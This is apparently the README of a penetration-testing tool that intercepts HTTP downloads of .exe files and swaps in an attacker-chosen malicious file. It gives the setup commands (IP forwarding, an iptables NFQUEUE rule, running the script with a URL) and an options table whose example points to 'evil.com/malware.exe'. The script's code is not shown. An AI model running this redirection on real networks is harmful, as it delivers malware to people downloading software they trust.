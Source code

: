 # :boom: HTTP File Replacement Tool

This tool intercepts HTTP requests for `.exe` files and replaces the download link with a malicious file URL of your choice.  

## ⚠ Disclaimer
This project is for **educational and penetration testing purposes only**.  
Do **NOT** use this tool on networks you do not own or have explicit permission to test.  
Unauthorized use is **illegal** and punishable by law.

## 📌 Features
    - Intercepts HTTP requests for `.exe` files
    - Redirects downloads to a malicious URL
    - Allows specifying the malicious file URL via **command-line arguments**
    - Can be adapted to replace other file types (e.g., `.zip`, `.pdf`)

## 🚀 Usage:

1. Enable IP forwarding:


        echo 1 > /proc/sys/net/ipv4/ip_forward

2. Set up iptables rules:

        sudo iptables -I FORWARD -j NFQUEUE --queue-num 0

3. Run the script:

        sudo python file_replace.py -u "https://www.example/malicious.exe"

4. Restore firewall rules after finishing:

        sudo iptables --flush

📂 Command-Line Options

| Option         | Description                                 | Example                             |
| -------------- | ------------------------------------------- | ----------------------------------- |
| `-u` / `--url` | Malicious file URL to redirect downloads to | `-u "https://evil.com/malware.exe"` |




   
    
